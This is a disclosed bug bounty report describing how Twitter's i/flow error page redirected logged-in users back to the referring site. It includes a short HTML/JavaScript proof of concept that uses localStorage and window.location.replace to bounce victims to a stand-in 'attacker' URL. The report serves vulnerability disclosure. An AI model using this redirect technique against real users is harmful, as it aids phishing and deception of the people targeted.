 # Accepting error message on twitter sends you to attacker site

## Report Details
- **Report ID**: 781673
- **URL**: https://hackerone.com/reports/781673
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-23T17:21:40.684Z
- **Disclosed**: 2020-03-13T18:14:22.046Z

## Reporter
- **Username**: safehacker_2715
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Summary:** Accepting error message on twitter sends you back to attacker site. 

**Description:** 
 1. The link https://twitter.com/i/flow shows up an error message with an OK button
 2. When you are not logged in, clicking in that OK button takes you back to twitter.com
 3. But if you open that link when you are logged in, clicking on OK takes you to the page from where you are routed to twitter.
 4. This simplifies phishing attack where an attacker can take user to malicious page on clicking OK button on twitter.

PS: This may not be an Open redirect using URL but a redirection that could simplify phishing attacks (CWE-601)

## Steps To Reproduce:

  1. Save  the following code as HTML file
  2. Login to twitter and in other tab of same browser open the HTML file
  3. Click on the link "Click here"
  4. You are then taken to twitter and an error message is shown
  5. Click OK
  6. You are then reidrected to attackers site (Here in PoC I have used "https://hackerone.com/twitter")


```
<html>
<body>
<h1> This is hacker's site</h1>
<a href="https://twitter.com/i/flow" onClick="userClicked()">Click here</a> //This may also be made an auto-redirection to twitter from attacker site

</body>
<script>

function userClicked(){
localStorage.setItem("ClickCount", 1);  //Setting up a value in local storage to detected user click
}


if(localStorage.getItem("ClickCount")==1)
   {
      localStorage.setItem("ClickCount", 0); 
      if(localStorage.getItem("ClickCount")==0) 
         {
            window.location.replace("https://hackerone.com/twitter");  //This can any attacker controlled website
         }
   }
   
   

</script>
</html>
```

## Impact

This simplifies phishing attack where an attacker can take user to malicious page on clicking OK button on twitter
Possible fix might be sending the user back to twitter.com on click of OK

## Attachments
No attachments
